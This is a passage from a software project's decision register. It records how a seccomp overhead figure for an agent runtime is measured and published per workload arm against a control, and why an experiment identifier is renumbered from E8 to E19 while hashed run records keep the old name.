- **Not** a claim that FR-049 now *requires* a capable supervisor. FR-049 constrains where enforcement
  sits, not what authority the enforcer holds, and OD-24's observation that an operator delegating a
  cgroup subtree by unit file satisfies it with a supervisor holding no capability at all is still
  true of FR-049. What this entry removes is the *map* obstacle, which was always the binding one.

> #### ⚠️ THE SUPERVISOR IS NO LONGER ZERO-AUTHORITY, AND ARGUMENTS RESTING ON THAT NEED RE-CHECKING
>
> **This is the entry's one instruction to future passes.** Any argument anywhere in this corpus that
> rests on the premise *"the supervisor holds nothing"* is now resting on a premise the owner has
> retired, and it needs re-checking on arrival rather than inheriting. **The sites that state it as a
> measured impossibility are correct and stay**: finding 023's readings of what an *unprivileged*
> writer can and cannot do are the evidence for this decision, not casualties of it, and the same
> goes for OD-24's *"the map, not the cgroup, is what makes an unprivileged supervisor unbuildable"*.
> **What must be re-checked is any argument that treats zero authority as the supervisor's settled
> posture and reasons forward from it.** A propagation pass audited for this at the time of writing
> and found none live; that audit is a dated reading rather than a guarantee, which is why the
> instruction is recorded here instead of being declared discharged.

**Authorises no code, no task and no requirement text, and says so rather than leaving it to be
discovered.** There is nothing to authorise: the mechanism this decision selects is not built, and
**OD-24's deferral is what governs whether it gets built** — a question this entry deliberately does
not touch. What it authorises is a **statement to an operator**: the bundle may require `CAP_SETUID`
and `CAP_SETGID`, and a deployment that refuses them gets the plain-drop fallback rather than a
degraded namespace. **No requirement text changes and none should.** FR-048, FR-049 and FR-050 state
properties; this decision narrows the mechanism they would be delivered by, which is the same
division of labour OD-24 records.

**Propagated to** **OD-24**
above, whose replacement second ground is annotated as **retired by this entry** with ground ① left
explicitly standing — the annotation lands **at the register** rather than only at a derived copy,
which is the failure that entry's own re-examination caught and which would otherwise have recurred
here with the documents swapped; [feature 002's `plan.md`](../002-spec-aware-agent-runtime/plan.md)
at the privilege-model note, whose live sentence that *"whether the supervisor may hold `CAP_SETUID`
is open"* is now false and is struck in place, and at the **Inherited decisions** bound; and
[finding 024](../002-spec-aware-agent-runtime/findings/024-deployment-surface-permission-census.md)'s
propagation section, which recorded this decision as **untaken** and carried a stale reservation of
`OD-26` for it — a number taken on 2026-08-05 by an unrelated decision, and the second time that one
sentence rotted. **Findings 021, 023 and 028 are annotated where they name the question and are not
otherwise touched**: they are authority documents whose measurements this decision consumes rather
than contradicts, and a finding that framed a question should say where it was answered.
**[`tasks.md`](../002-spec-aware-agent-runtime/tasks.md) is held by a concurrent pass and was not
edited**; what **T206**'s owed `uid_map` preflight arm gains from this entry is reported to the owner
rather than applied, and the two conditions that arm already carries — that it cannot be a boolean,
and that any remedy naming `newuidmap` must name `CAP_SYS_ADMIN` — are confirmed by this decision
rather than changed by it. **No removal proof is warranted and none is added**: this entry is a
record, it authorises no mechanism, and a proof asserting that deleting prose breaks a test would be
the vacuous kind [finding 032](../002-spec-aware-agent-runtime/findings/032-removal-proof-signal-fabrication.md)
exists to keep out of this corpus.

### OD-30 — CI is the authoritative environment for T101's overhead figure, and the figure is published per arm against the same run's measured control with pooling forbidden and, after limb ③'s revision of 2026-08-10, with nothing withheld and any overlap with the control stated as overlap; the `workflow_dispatch` recording route is declined because the route it would have built already exists

**Decided 2026-08-10**, answering the one question
[`tasks.md`](../002-spec-aware-agent-runtime/tasks.md)'s T101 blocker set put to an owner and
explicitly declined to answer: **which environment produces T101's authoritative figure?** That
bullet reads *"the decision is left unmade"* and states the reason it was left — the choice is which
posture a recorded figure is allowed to be a property of, and no host answers it. The answer is
**CI**, on grounds stated comparatively below, and it arrives with two riders the owner asked to have
tested rather than implemented politely.

**This is a decision and not a measurement, and two of its three limbs came back changed by
contact.** The environment selection stands. The recording route is **declined** rather than
deferred — the mechanism it would have installed is unnecessary and, built as specified, breaks the
job it runs in. The publication rule stands as a rule and **its prediction about which arm it
withholds is inverted**, which matters because the arm it actually withholds is the one **Q-09**
names.

**① CI is the authoritative environment for T101's figure. The claim is comparative and is recorded
as comparative.** CI is a 4 vCPU hosted runner (`6.17.0-1020-azure` x86_64, euid 0, CPython 3.12.13)
and is **not** a deployment-representative host; nothing here claims it is one. What it is, is the
better of the two environments this corpus can reach, and the two grounds that carry it are the
sample and the architecture. Eleven runs since `31400931286` publish a five-arm figure as an
artifact, three of them with a k=10 within-run sample beside it, all on one documented harness and
one runner class — against which a linuxkit figure is a local reading whose record is gitignored. And
`6.12.76-linuxkit` on `aarch64` is a kernel and an architecture nothing deploys to, so a figure taken
there would inherit none of CI's evidence, which is this corpus's own standing rule that two records
on different kernels are not a before and an after.

> #### ⚠️ THE HEAVIEST GROUND OFFERED FOR LIMB ① IS FALSE, AND THE LIMB STANDS WITHOUT IT
>
> **The ground that CI *"is the only environment that measures all five arms including both
> reference-application arms"* does not survive reading the artifact.** The privileged linuxkit
> container measures all five. `tests/batteries/results/seccomp-overhead.latest.json` on this host is
> a **2026-08-10 `6.12.76-linuxkit` aarch64 record at `euid 0` carrying all five arms** —
> `compute_only`, `path_heavy`, `shell_heavy`, `reference_app_api`, `reference_app_socket` — and it
> carries the `euid` key the committed record lacks. The Docker daemon is reachable and
> `f2a-dev:latest` is present, so this is a live capability rather than a historical one.
>
> **So the comparison is the reverse of the one the ground describes, on that axis.** Both
> environments measure five arms; only the linuxkit one can *record*, because `record_filename`
> writes the durable name and CI's checkout is destroyed with the runner. Limb ① therefore selects
> the environment that **cannot** produce the recorded artifact, and it does so on the sample and the
> architecture rather than on arm coverage. Recorded this way because a limb resting on a false
> ground reads as settled until someone checks it, and the two surviving grounds are sufficient.

**② The `workflow_dispatch` recording route is declined. The deliberateness argument is sound and
the route it argues for already exists.** The proposal was to wire `F2A_RECORD_MEASUREMENTS` behind
a `workflow_dispatch` input defaulting off, so that recording in CI took two deliberate human acts
rather than one. Inspection establishes that **the flag was never the obstacle** and that the second
act is already the whole mechanism:

- **The flag governs the write target and nothing else.** `record_filename` returns
  `seccomp-overhead.json` when the variable reads exactly `"1"` and `seccomp-overhead.latest.json`
  otherwise. The measurement is identical on both branches; what changes is a filename.
- **The artifact route is already built.** `ci.yml`'s *Keep the outcome record and the native figure*
  step uploads `tests/batteries/results/seccomp-overhead.latest.json` on `if: always()`, and the
  step above it renders that file into the run summary and **exits 1 when it is absent**. The
  owner's belief about both was correct.
- **So recording already costs exactly the two acts the proposal was for**: a human causes a run, and
  a human downloads that run's artifact and commits it as the durable record. A `workflow_dispatch`
  input adds a third act that gates nothing, because setting the flag inside CI writes the durable
  name into a checkout that is deleted.

> #### ⚠️ BUILT AS SPECIFIED, THE FLAG WOULD HAVE FAILED THE JOB AND MISREPORTED WHY
>
> **The render step reads `seccomp-overhead.latest.json` by name and the upload step lists it by
> name.** Under `F2A_RECORD_MEASUREMENTS=1` the battery writes the *durable* name instead, so
> `.latest.json` is never created, the render step takes its `[ ! -s "$figure" ]` branch, and the job
> fails at `exit 1` under the heading **`seccomp overhead — NOT PRODUCED`** — a step whose own text
> reads *"its absence means the measurement did not run — most likely the battery skipped"*. That
> would be a fabricated diagnosis on the one run triggered to take a record, and the record itself
> would go un-uploaded, the upload path naming only `.latest.json`. `on:` carries `push` and
> `pull_request` and no `workflow_dispatch` today, so nothing was half-built.
>
> **Nothing is installed and no requirement moves.** The declined route is recorded rather than left
> unmentioned so that a later pass reaching for the same one-line input finds the reading already
> taken.

**③ T101's figure is published per arm, each arm's overhead stated beside the same run's observed
control excursion, and pooling or minimising across the four load-bearing arms is forbidden
outright.** No threshold is invented, and that refusal stays load-bearing:
`test_a_small_positive_overhead_is_still_published_because_no_floor_is_known` asserts it.
~~The control arm **is** the measured floor, so an arm clearing that run's control excursion by orders
of magnitude is publishable as a number and an arm inside it is published as **not resolved by this
instrument**.~~ **Struck 2026-08-10 by the revision two blockquotes below: every arm publishes its
overhead, and the control's excursion is stated beside it as an overlap rather than used to withhold
it.** Pooling is forbidden because the resolution spread across the four is an order of magnitude —
`overhead_seconds` as a share of each arm's own `baseline_seconds` reads 729/704/635% for
`path_heavy` against 7.7/4.9/6.6% for `reference_app_socket` — so any pooled headline is a statement
about the worst-resolved arm wearing the others' names.

> #### ⚠️ THE ARM LIMB ③ WITHHOLDS IS `shell_heavy`, NOT `reference_app_socket`, AND IT IS THE ARM
> #### Q-09 NAMES
>
> **The ruling as offered predicted that the socket arm is the one sitting inside the control's
> excursion. The readings say the opposite, and the inversion comes from two different quantities
> being read as one.** Resolution — overhead as a share of an arm's own baseline — is where
> `reference_app_socket` is worst, at 4.9–7.7%, and that is what makes it the widest of the four.
> Limb ③'s rule tests something else: **absolute overhead against the control's absolute
> excursion.**
>
> On that quantity the socket arm is comfortably clear and `shell_heavy` is not. The control's
> positive extreme across three samples of identical construction reads **+0.010275, +0.017368 and
> +0.029317 s**; the socket arm differences two ~0.7 s medians to recover **~0.05 s**; and
> `shell_heavy`'s overhead in run `31416959913` reads **0.0188–0.0228 s**, which sits **below** that
> run's own control excursion. In run `31415736559` all four arms clear the band and `shell_heavy` is
> the closest at 24.9–28.3 ms of overhead against a +10.3 ms ceiling, a factor of **2.4**.
>
> **So limb ③, applied to current samples, withholds `shell_heavy` ~~on the widest-control run~~ on
> two of the three recorded samples** *(count corrected 2026-08-10 by re-derivation from all three
> artifacts; the singular was read off the one sample this entry named and understated the rule's
> reach — the revision below carries the derivation)* — and
> `shell_heavy` is the arm the battery's own header calls *"the arm Q-09 names, because an agent that
> composes shell commands pays this cost on every one of them"*, and the arm T101 names in its own
> text. The hazard was already on the record at T101's magnitude-bound bullet, which observes that
> `shell_heavy` sits only 2.4× above the bound and that a bound nudged upward *"would begin
> suppressing a load-bearing arm"*. Limb ③ does not nudge a bound upward; it makes the widest
> observed control the bound, which reaches the same arm by a different route.

> #### ⚠️ LIMB ③ IS REVISED 2026-08-10 — NOTHING IS WITHHELD, AND THE OVERLAP IS PUBLISHED *AS* AN
> #### OVERLAP ON THE SAME LINE AS THE FIGURE IT QUALIFIES
>
> **This is a revision, on OD-23's and OD-24's precedent, and not a narrowing or a correction.** It is
> the **same question** — what shape T101's figure is published in — revisited the same day, and the
> answer taken is the alternative this entry's own text named and set aside. A *narrowing* would leave
> the withholding rule live over a smaller set of arms, and the rule's defect is not its extent. A
> *correction* would assert the rule was mis-transcribed, and it was not: it was written down as
> intended, and the intent does not survive its own measurements. **Struck text stays**, because the
> wrong-arm prediction above is the evidence for this revision rather than a casualty of it, and a
> register recording only the amended rule would leave that prediction pointing at nothing.
>
> **The rule as revised, in three elements.** Every arm publishes its `overhead_seconds`. Beside it
> stands **the same run's observed control excursion** and **the pooled control range across the
> recorded samples**. Where the arm's figure overlaps either range, the overlap is stated **as an
> overlap, on the same line as the figure it qualifies** — not in a banner, a preamble or a footnote.
> No arm is withheld. Pooling and minimising across the four load-bearing arms stay forbidden,
> unchanged, and no threshold is installed.
>
> **The comparator that was struck was a per-run maximum, and that is the defect that carries the
> revision rather than the wrong-arm prediction.** A per-run maximum makes the set of published arms a
> property of the draw: the noisiest run publishes the fewest arms, and one extreme control draw drops
> a real figure without anything reporting that it did. This corpus has already ruled that no single
> CI run is a decidable basis for this quantity — `tasks.md`'s blocker 3 states it as *"the across-run
> spread is wide with no outlier, so no single CI run's median is a decidable basis for Q-09"* — and
> the magnitude-bound bullet states of the control's positive extreme that **"there is no single
> number here to serve as a floor."** Limb ③ took that quantity, which the corpus had just finished
> establishing is not a floor, and made it one per run.
>
> **Re-derived from all three artifacts rather than inherited, and the rule's reach is wider than the
> entry recorded.** `overhead_seconds` per arm against the same run's control positive extreme, over
> `seccomp-variance.latest.json` from the three k=10 runs, 10 draws per arm per run:
>
> | run | control positive extreme | `shell_heavy` overhead | draws above the extreme | limb ③ |
> |---|---|---|---|---|
> | `31415736559` | +0.010275 s | 0.024945 – 0.028304 s | 10 of 10 | publishes |
> | `31416789165` | +0.017368 s | 0.014794 – 0.017791 s | 1 of 10 | **withholds** |
> | `31416959913` | +0.029317 s | 0.018794 – 0.022802 s | 0 of 10 | **withholds** |
>
> **So the published set moves with the draw, which is ground ② as a measurement rather than as an
> argument**: limb ③ publishes four of the four load-bearing arms on the first sample and three on
> each of the other two. **And the rule sits one draw away from withholding three of four.** On
> `31416959913` the surviving arms clear that run's control extreme by factors of only 3.01, 1.33 and
> 1.23 for `path_heavy`, `reference_app_api` and `reference_app_socket` — a control draw a quarter
> wider than the widest yet observed would take two more arms with it. The revised rule publishes five
> of five on every sample, and its published set is a property of the battery rather than of the boot.
>
> **The pooled control range is the second comparator because it is the stable one**: −0.007711 to
> +0.029317 s over all 30 draws, non-positive in 9 of them. Against that range **`shell_heavy` is the
> only arm of the four that overlaps at all** — its pooled span of 0.014794 to 0.028304 s sits inside
> the control's ceiling — while `path_heavy`, `reference_app_api` and `reference_app_socket` clear it
> on every draw at 0.081526, 0.032178 and 0.031767 s respectively at their minima. That is a sharper
> statement than any per-run verdict and it is available only because the ranges are pooled *for
> disclosure* while the publication decision is not pooled at all.
>
> ✅ **A FOURTH SAMPLE CONFIRMS THE FINDING PROSPECTIVELY AND TIGHTENS THE MARGIN, AGAINST A DRAW THAT
> DID NOT EXIST WHEN THE REVISION WAS WRITTEN.** Run `31427947131` is the CI run of the commit that
> recorded this revision: same runner class, 10 of 10 batteries in 150.7 s, control **−0.012760 to
> +0.021070 s**, and `shell_heavy` at **0.024417–0.028696 s** above that run's control extreme in
> **10 of 10** draws. So the arm **clears on this sample, by 1.16** — the narrowest margin of the four
> and narrower than `31415736559`'s. The three-sample table above stands as correct for its sample; the
> count becomes **two of four published and two of four withheld** under the struck rule, which leaves
> ground ② untouched and strengthens it, the published set having now moved twice. Pooled over all
> **40** draws the control runs **−0.012760 to +0.029317 s**, non-positive in **14**, and
> `shell_heavy` remains **the only one of the four that overlaps it**, at 0.014794 to 0.028696 s. **The
> claim could have come back either way and came back confirming that this arm sits at the control's
> own scale**, which is the fact the struck rule would have hidden by withholding the number.
>
> **Three of the four grounds offered for this amendment hold; the fourth does not, and it fails
> against the repository's own code.** *It invents no threshold* holds, and holds more strongly than
> offered: `test_a_small_positive_overhead_is_still_published_because_no_floor_is_known`
> (`tests/unit/test_seccomp_overhead_record.py`) pins that a small positive difference still publishes,
> and its module's own reasoning is that a floor would be *"a constant silently deciding which figures
> get published."* Limb ③'s comparator was not a constant but a value that moves from +0.010275 to
> +0.029317 s across three samples of identical construction on one runner class, which is that
> objection with the number made unstable as well as invented. *It is stable
> across runs* holds and is measured in the table above. *It is strictly more information* holds
> **conditionally on the third element**, and without that element it is more information carrying a
> false precision. **The house-pattern ground fails as offered.** `costs.UNPRICED` is not the
> record-the-reason-beside-the-value precedent it was offered as: it records the reason **in place of**
> the value — OpenAI has no rate in that table at all — and `CONTEXT_TIERED_WITHOUT_THRESHOLD` makes
> that refusal executable on the express ground that letting a number be supplied *"would recreate
> that defect with the operator's name on it, which is worse than the present refusal because it looks
> authorised."* `UNRATED` is not a different case from it either: the test
> `test_every_withholding_reason_is_recorded_in_prose` states in its own docstring that `UNPRICED` is
> **"the table this one is modelled on."** Both suppress, and both are authority *for* withholding
> where a number would otherwise look authorised.
>
> **The nearer precedent is FR-043's marking discipline, and it is the one that survives contact.**
> Three requirements already publish a number that is not a measurement and require it *"marked
> unvalidated **wherever it appears** externally"* — FR-049's two bounds, FR-046's detection window and
> FR-047's staleness ceiling — and **T112** measures the residual lease window on the same footing,
> its own task text recording that the window *"is disclosed rather than denied."* That is the family
> this figure belongs to: a real measurement whose precision is insufficient, published with a mark
> that travels with it. `UNPRICED` and `UNRATED` are the other family, where the quantity's own
> definition rules the value out.
>
> **The quote-an-unresolved-number objection is real, it is the reason the third element exists, and
> it is not answered by a fourth ground.** Disclosure beside a figure does let a reader lift the figure
> and leave the disclosure, and this corpus has already paid for exactly that: `dry-run-verdict`'s
> motivating artifact *did* disclose itself, with a banner and a directory name, and its decision row
> still read `verifier is a headline feature` — *"a reader who arrives by `grep` reads that row and no
> banner."* That cost five artifacts. The remedy this repository already adopted for it is not
> withholding but **line-locality**: a disclosure token must sit within 120 characters of the claim it
> licenses, measured rather than chosen, because the grep-shaped reader is the one being protected. So
> the amendment takes that remedy rather than a new argument, and the overlap statement is required on
> the figure's own line. **What the third element does not yet have is a machine-readable half**, and
> that is recorded as owed rather than installed: a per-arm field in the record asserting whether the
> arm cleared its own run's control would make the mark travel into anything that reads the artifact,
> and adding one is code this entry does not authorise and a measurement nobody has taken.
>
> **What this revision does not license.** It is **not** a finding that `shell_heavy`'s overhead is
> resolved — it is not, on two of three samples, and the disclosure says so. It is **not** permission
> to quote any arm's figure without the control ranges beside it. It is **not** a floor, a threshold or
> a bound, and it installs none. And it does **not** retire the hazard the struck text named: the arm
> whose resolution is worst in absolute terms is still the arm Q-09 and T101 name.

> #### ⚠️ THIS NARROWS T101 AND DOES NOT CLOSE IT, AND Q-09 IS UNAFFECTED
>
> **Q-09 stays satisfiable, and limb ③ is not what threatens it.** Q-09 was accepted *"with the
> overhead measured on the reference application before it is committed"* and its operative clause is
> a decision rule — *"if the measurement says prohibitive, the fallback is (b) with the
> before-execution property lost, or (c)"*. That rule needs a verdict rather than a point estimate,
> and an overhead beneath the instrument's own zero-measurement excursion answers it in the
> **not-prohibitive** direction with more force than a number would: an overhead smaller than the
> floor cannot be prohibitive. A bound discharges Q-09.
>
> **T101 is narrowed, and the narrowing lands somewhere other than where it was expected.** T101
> asks for *"the figure and the shell-heavy arm that stresses it"*. It names **two** subjects, so it
> never asked for a single pooled workload-level figure and limb ③'s prohibition on pooling
> contradicts nothing in it — the worry that pooling was T101's criterion does not survive reading
> the task. What limb ③ does put at risk is T101's *other* named subject: on the widest-control
> sample the shell-heavy arm is published as a bound rather than as a figure, and T101 asks for it by
> name. **The task is therefore narrowed rather than discharged**, and the honest statement of its
> state is that it owes ~~a figure on `reference_app_api`, a figure on `path_heavy`, and a bound on
> whichever of the remaining two the run's own control swallows~~ **a figure on all four load-bearing
> arms, each carrying the control ranges beside it, with no arm withheld** *(superseded 2026-08-10 by
> the revision two blockquotes above, which is what makes the count four figures rather than three and
> a bound. The struck clause is left standing because it records what the withholding rule cost T101 —
> a named subject demoted to a bound — which is the residue the revision removes)*. **T101's criterion
> is not reworded to fit this entry**, which is why the residue is recorded as a residue.

**Authorises no code, no requirement text and no new task.** FR-048's recording clause and SC-022 are
untouched, `REPEATS` stays 5, no threshold is installed, and no artifact is hand-edited — the repair
for a stale measurement is a new measurement, which this entry selects an environment for and does
not perform. What it authorises is a **publication shape** for a figure that is not yet recorded, and
a **decline** that removes one route from consideration.

**Propagated to** [`tasks.md`](../002-spec-aware-agent-runtime/tasks.md)'s T101 blocker set, whose
closing bullet said the decision was left unmade and is struck in place with this entry named, and
whose blocker 1 is narrowed rather than contradicted: `F2A_RECORD_MEASUREMENTS` does still occur once
in `ci.yml` at line 514 inside a comment, and what changes is that the flag is established as not
being the obstacle it was read as; [feature 002's `plan.md`](../002-spec-aware-agent-runtime/plan.md)
at the **Inherited decisions** bound, which tracks the register's extent by its own stated rule;
and [`tests/batteries/test_seccomp_overhead.py`](../../tests/batteries/test_seccomp_overhead.py)'s
`REPEATS` note, where the observation that a pooled headline is dominated by the worst-resolved arm
becomes a rule with an entry to cite, and where the arm identified by limb ③ is named. ~~**Feature
002's `spec.md` is not advanced and the reason is stated rather than left as an omission**: its bound
reads `OD-28` and has sat two entries behind since OD-29, and advancing it there calls for the
per-decision requirement paragraph that file's convention carries, which is an owner's sentence and
not a propagation pass's.~~ **Advanced 2026-08-10 on the owner's authority, at both of its bounds and
at `docs/spec-kit-workflow.md`'s row, for OD-29 and OD-30 together**: the per-decision paragraph that
convention calls for is written for each, and neither entry places an obligation on requirement text —
which is what the paragraphs say, in each entry's own terms and for each entry's own reason.
**No removal proof is warranted and none is added**: this entry authorises
no mechanism, and a proof asserting that deleting prose breaks a test is the vacuous kind
[finding 032](../002-spec-aware-agent-runtime/findings/032-removal-proof-signal-fabrication.md)
exists to keep out of this corpus.

### OD-31 — the verifier-vs-judge experiment is renumbered **E19** and the Stage-D synthesis experiment keeps **E8**; the renumber reaches live prose only, and the committed run directories, the fingerprinted harness files and the dated assessments keep the name they were recorded under

**Decided 2026-08-11**, answering the one question the collision note opened on 2026-08-10 and
deliberately declined to answer: **which experiment keeps `E8`.** That note priced both options so
the decision could be taken on numbers, and recorded that until it was taken every occurrence of the
identifier was *ambiguous by meaning while resolving correctly by construction*. It is taken here,
and the option with the larger radius is the one selected.

**The decision.** The **Stage-D synthesis experiment keeps `E8`.** It is the node
[Stage D](#e8--does-synthesis-reach-the-ceiling) defines, the target of the ladder's `clears` edge,
and the row the [budget table](#budget-and-the-feature-split) prices; it was never built and is
deferred to feature `002`. **The verifier-vs-judge experiment becomes `E19`**, defined at its harness
index [`harness/verifier-vs-judge/README.md`](./harness/verifier-vs-judge/README.md). This is the
collision note's option **A**, and it is the more expensive of the two.

**Why the number is `E19`, and it satisfies both readings of the register's convention rather than
one.** It is the lowest free member — the register runs unbroken from `E1` to `E18` — and taking it
leaves the register contiguous, which is what `identifier-gap` enforces. The contiguity objection the
collision note raised against `E19` was an objection to option **B**: renumbering *the ladder node*
would have stopped the ladder running in its own dependency order. **That objection does not transfer
to option A**, because the verifier-vs-judge experiment is not a ladder node and never was. The
register already numbers its non-ladder experiments this way: `E16`, `E17` and `E18` are each defined
by their own harness index rather than by a stage, and each took the next free number. `E19` is that
convention applied once more.

**The radius that was in front of the owner, and the radius that was actually there.** The collision
note priced option A at `128` occurrences across `52` files. **That figure was stale when this
decision was taken.** Measured 2026-08-11 at `c9e42ad`, the identifier occurs **194** times across
**70** files — the note's own hardening pass added sites after the note was written, and the note's
sweep did not reach `.cursor/skills/`, which holds three more files. The structural counts it gave
hold exactly: seventeen harness source files, twelve committed run directories, and a manifest in
each naming the experiment inside a hashed record. **Of the 194, sixty-three renumbered and one
hundred and thirty-one did not.** Nine of the preserved sites are Stage D's own and were correct as
written, so the decision preserved **122** sites it could have rewritten and rewrote **63**. The
preserved sites divide three ways: **74** under `harness/verifier-vs-judge/`, whose bytes a verifying
hash attests; **47** across the three findings and [`E8-VIABILITY.md`](./E8-VIABILITY.md), which are
dated assessments carrying a masthead instead; and **1** in the namespace-collision section of
[`tools/README.md`](../../tools/README.md), which is a dated measurement of the collision itself.
**The renumber is the minority of the radius, and that is the shape a frozen-sites ruling produces.**

**Where the line falls, and it is drawn mechanically rather than by taste.** A site is preserved if
**a hash that currently verifies attests its bytes**, or if it is **a dated record whose subject is
the run or the assessment itself**. Everything else is live and renumbers. Five hash chains were
re-run at `c9e42ad` before the line was drawn, and all five reproduce: the final run's
`harness_fingerprint` `6c58910ec3fd9c36`, which covers sixteen files including `corpus_freeze.json`;
`preregistration_sha256` `9c9b1fcfdbd08cf5`; `judge_prompt_sha256_16` `442967d39382be76`, recorded by
all twelve runs; `derivation_rules_sha256_16` `ca7f499d96c2af4f`; and `c2_derivations_sha256_16`
`ab4d8b534cd98c72`, also recorded by all twelve. **Fifteen of the sixteen fingerprinted files carry
the identifier**, so editing any one of them would break a fingerprint that a committed manifest
still matches.

| Disposition | What it covers | Why |
|---|---|---|
| **Renumbered** | live prose in this document, `VERDICT.md`, the root `README.md`, four research documents, the harness index, three project skills, two files under `tools/`, three cross-references in the `pass-by-reference` harness, and the verifier harness's own `README.md` | a reader uses these to understand the present state, nothing attests their bytes, and an ambiguous identifier in them is the defect this entry closes |
| **Left standing as a dated measurement** | the namespace-collision section of [`tools/README.md`](../../tools/README.md) | its entire subject is an identifier that named two things. Renumbering it would turn a true measurement into a false one, since after this entry neither identifier names two things. It gains a resolution notice and keeps its text |
| **Preserved with a dated masthead** | findings 015, 017 and 018, and [`E8-VIABILITY.md`](./E8-VIABILITY.md) | dated authority documents. The house convention for an authority document is strike-and-supersede rather than overwrite, and a strike inside a heading corrupts its anchor, so each gains a masthead naming `E19` and no sentence beneath it is rewritten |
| **Untouched** | every file under `harness/verifier-vs-judge/` except its `README.md` | fifteen are fingerprinted, twelve manifests and ten run reports are dated records of runs that happened under the old name, the adjudication tree is a completed blind study, and `NEUTRALISATION.md` is a dated correction record |

**The banner in the harness source is uniform, and that is why the directory moves as one unit.**
Nearly every occurrence inside it is the same line — `SPIKE - E8 verifier-vs-judge. Delete after
2026-11-30.` — carried identically by the fingerprinted files and the four that are not fingerprinted.
Renumbering only the four would leave one banner reading two ways according to whether a file happened
to be hashed, which reads as an error rather than as a decision. The directory keeps one name
throughout and its index says why.

**What this decision does not license.**
- **Not** a licence to edit any artifact under `harness/verifier-vs-judge/results/` or
  `harness/verifier-vs-judge/adjudication/`. Those runs happened when the experiment was called `E8`,
  and rewriting them would falsify a record. **Nothing mechanical would stop it**, which was
  established by trying it rather than by reading the code: an `E8`→`E19` edit planted in
  `results/20260803T092721-final-verify/manifest.json` left `freeze.py --verify` reading *intact*,
  `neutralise_decision.py --check` passing, and `check_corpus.py` at zero errors. A manifest
  **records** `harness_fingerprint`; no hash covers the manifest's own bytes. **These twelve
  directories are held by the frozen-sites ruling alone**, and that is the whole of what holds them.
  This is that ruling applied, not a new exception to it. The residual is named under
  [Open items](#open-items-this-plan-does-not-resolve).
- **Not** a licence to edit any fingerprinted harness file, including `corpus_freeze.json`. Two
  distinct mechanisms are in play and only one of them binds here. The freeze refuses to start on a
  change to the corpus it pins — **eleven `ceiling-test` run directories, which live under a
  different harness entirely** and contain none of this experiment's output — while
  `corpus_freeze.json`'s own bytes are hashed into `harness_fingerprint`. **The second is the binding
  one**, demonstrated by planting the identifier edit: `freeze.py --verify` still read *intact* and
  the fingerprint moved from `6c58910ec3fd9c36` to `6455304208664976`. Fifteen of the sixteen
  fingerprinted files carry the identifier; only `c2_derivations.json` does not. This is the
  constraint the neutralisation of 2026-08-03 already respected when it declined to edit
  `analyze.py`.
- **Not** a re-opening of **OD-14**. The verifier's margin over an LLM judge stays **UNMEASURED** and
  deferred to production traffic. This entry renames an experiment and changes no figure, no
  denominator, no verdict and no state.
- **Not** a finding that the identifier ever resolved wrongly. `identifier-resolution` passed
  throughout and was right to: the collision was a definition and a use, not two definitions.
- **Not** a precedent that a filename follows its subject. `E8-VIABILITY.md` keeps its name because
  three authority documents cite it under that name, and rewriting their provenance rows to chase a
  rename is the cost this entry declines to pay.

**Authorises no code, no requirement text and no new task.** No figure moves, no threshold moves, no
artifact under `results/` is touched, and `EXPECTED_PROOFS` is unaffected. What it authorises is a
**name** and the disposition of the sites that carry it.

**Propagated to** the collision note above, which is superseded in place with this entry named rather
than deleted, because it records a real state that this entry resolves; the closure sentence under
**OD-14**, which named its experiment rather than numbering it precisely so that this decision could
number it later; [`VERDICT.md`](./VERDICT.md), the root [`README.md`](../../README.md), the harness
index, and the research documents that cite the experiment. **A reader who meets `E8` inside a frozen
record reaches the answer in one hop**: the harness index names `E19` in its own title and carries a
dated notice stating that every artifact beneath it records the earlier name.

## Open items this plan does not resolve

- ~~**The deployment model** — self-hosted, hosted, or local analysis with a hosted runtime. No
  experiment settles it; it is a commercial decision, it must be made before the production spec, and
  multi-tenancy, the credential architecture, and the iframe tier all fall out of it.~~ ✅ **RESOLVED
  2026-08-02 by OD-08 above: ship self-hosted, design so fully hosted stays reachable without a
  rewrite.** The three things this bullet said fall out of it did, and they fell out in three
  different directions rather than one — **multi-tenancy is deferred rather than absent** and survives
  as OD-08's namespaceability and tenant-identity disciplines; **the credential architecture** has its
  custody half discharged by construction and its confused-deputy half untouched; and **the iframe
  tier is deferred with the hosted model.** Propagated to `research/14-architecture-synthesis.md`
  (TL;DR 15 added, O-01 struck, **D-20** added, D-04 / D-08 annotated, §2.8 / §2.9 / §2.12 / §7.6
  annotated, and **O-02 / O-03 / O-05 / P-10 / U-05 narrowed with O-04 hardened — five narrowed, none
  struck**); `research/08-auth-identity-and-secrets.md` (§0 cross-reference, §6.1, §6.2, §8.1 items 9 /
  10 / 13 / 16 and the deferred table, §8.3, §9 items 1 and 7); `research/07-product-vision.md` (§3.6,
  §4 item 5, Q2, **Q3 answered**); and two skills — `.cursor/skills/integration-surface-design/` and
  `.cursor/skills/credential-and-env-injection/`. ~~**U-05 is flagged for demotion out of the §5.1
  blocking set rather than moved, because §5.1's membership is pre-registered and thinning it is an
  owner action.**~~ **Flag discharged 2026-08-03 — the owner action was taken and is recorded as a
  dated annotation on OD-08 above.** **U-05 is reclassified as hosted-tier-blocking**: it stops
  blocking v1 and continues to block the hosted tier. It **stays in §5.1**, annotated in place under
  that section's convention, rather than moving to §5.2 — §5.2 is *high-impact, non-blocking* and a
  tier-blocking entry is neither. The flag's diagnosis was right and its stated destination was wrong,
  and both are recorded rather than one silently corrected. **Nothing was measured**: the trust
  question at U-05's core is exactly as open as it was on 2026-08-02.
- **Which agent class ships first** — operating *on* the codebase versus *through* the running
  application. E7 and E10 inform it; neither decides it alone.
- ~~**The ceiling-test target application.** Needs to be real, external, data-driven, dockerized,
  seedable, and publishing OpenAPI so ground truth is machine-generated. Selecting and standing it up
  is the first task of Stage C.~~ ✅ **RESOLVED 2026-08-02 — Stage C ran.** The target was selected,
  stood up and seeded, and its ground truth was machine-generated from the published OpenAPI document
  exactly as this bullet required; the harness and its pre-registration are committed under
  `harness/ceiling-test/`. *(Marked resolved 2026-08-03; it had been left open after the stage it
  gated had already completed.)*
- **NEW 2026-08-03 — how far read-only reaches.** OD-10 settles that v1 performs no writes **against
  the target application**. It does not settle whether the emitted agent's egress is restricted to
  that target, and [14](../../research/14-architecture-synthesis.md) §7.6 now records an egress
  allowlist as the cheapest remaining trifecta mitigation *because* writes are gone. That is a
  product decision, not an experiment, and the production specification inherits it.
  **WORKED THROUGH 2026-08-03, later the same day; still open, and its framing was wrong in a way
  worth keeping visible.** This bullet treats the egress restriction as a *new* product decision. It
  is not: constitution Principle IV bullet 1 already requires *network allowlisted to named hosts*,
